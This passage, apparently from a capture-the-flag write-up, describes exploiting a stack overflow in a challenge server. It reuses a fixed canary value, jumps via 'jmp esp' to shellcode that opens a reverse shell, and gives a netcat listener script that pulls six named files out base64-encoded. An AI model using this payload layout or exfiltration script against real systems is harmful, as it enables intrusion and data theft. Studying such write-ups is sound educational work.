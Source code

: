 ```c
> 	...  

I also needed to know exactly where the canary ended up in relation to the buffer. This was done by running the binary locally and sending a payload of blocks of four letters, i.e. "AAAABBBBCCCC..." etc. and then breaking at the "movl -4(%ebp)" instruction. By doing this, I fiured out that I needed 103 bytes of whatever followed by the canary value "0xe4ffffe4". I then did the same thing to figure out exactly where there the saved return address was located to know where to put the address to "jmp esp".

As a final preparation, I needed to setup the reverse shell listener. I wanted to send a command to give me back one file. Again, to make the transfer robust, I wanted to base 64 encode it. So, I set up netcat to listen on port 55555 and gave it the command "cat <file> | base64" and then piped the response to "base64 -d" to decode the data on my side. I had a script which looked like this.

```shell
#!/bin/sh  
echo "cat /gnome/www/files/20151215161015.zip | base64" | nc -l 55555 | base64 -d > 20151215161015.zip  
echo "cat /gnome/www/files/factory_cam_5.zip | base64" | nc -l 55555 | base64 -d > factory_cam_5.zip  
echo "cat /gnome/www/files/gnome.conf | base64" | nc -l 55555 | base64 -d > gnome.conf  
echo "cat /gnome/www/files/gnome_firmware_rel_notes.txt | base64" | nc -l 55555 | base64 -d > gnome_firmware_rel_notes.txt  
echo "cat /gnome/www/files/sgnet.zip | base64" | nc -l 55555 | base64 -d > sgnet.zip  
echo "cat /gnome/www/files/sniffer_hit_list.txt | base64" | nc -l 55555 | base64 -d > sniffer_hit_list.txt  
{% endhighlight  %}

Now I created and sent the actual payload which consisted of the following parts:

1. 103 bytes with the value "A"
2. The value 0xe4ffffe4 packed as 4 bytes
3. 4 bytes of padding with the value "A"
4. 4 bytes with the address to "jmp esp"
5. The shellcode, roughly 70 bytes long
6. 100 bytes with the value "A" to make sure that the read function read 200 bytes and returned quickly.

When I sent this, the following happened:

1. The canary is overwritten by the same value it already had, making sure that the condition at the end still passes
2. The return instruction is overwritten with the address of "jmp esp"
3. The shellcode is placed at the location where the top of the stack will be after "ret" has been called and the current frame removed.
4. "ret" is called and the current frame is removed, making ESP point to the shellcode.
5. The program jumps to "jmp esp" and it is executed.
6. The program jumps to the location of ESP which is where the shellcode is placed
7. The shellcode is executed which starts a reverse shell and connects back to my IP on port 55555.
8. The command "cat /gnome/www/files/20151215161015.zip | base64" is received and executed and the result sent back.
9. The output from netcat is sent to "base64 -d" and the result saved as a file. A file has successfully been extracted from the host.
10. This is repeated six times, once for each file.

### Part 5: Intelligence

Finally, with all the zip files extracted it is time to uncover this plot. Starting with the PCAP files, I looked at them in Wireshark. The first four each contained a SMTP session with the user "c@atnascorp.com" sending a single mail. The fifth one contained an POP3 session, with the user "c@atnascorp.com" retrieving a single mail.

The contents of the mails are as follows:
```